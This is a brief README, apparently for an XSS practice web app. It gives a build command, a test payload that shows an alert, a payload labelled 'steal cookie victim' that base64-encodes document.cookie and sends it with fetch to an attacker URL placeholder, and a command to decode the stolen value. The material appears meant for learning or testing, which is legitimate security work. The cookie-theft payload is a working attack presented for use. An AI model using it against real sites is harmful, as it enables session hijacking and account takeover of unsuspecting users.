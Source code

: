 # to run web app
```
./build_run.sh
```

# payload to testing xss
```
<img src=hello onerror=alert("Hello world") />
```

# payload to exploit steal cookie victim
```
<img src=hello onerror=fetch(`${url_attacker}?cookie=${btoa(document.cookie)}`) />
```

# command to decode base64
```
echo ${cookie_encoded} | base64 -d
```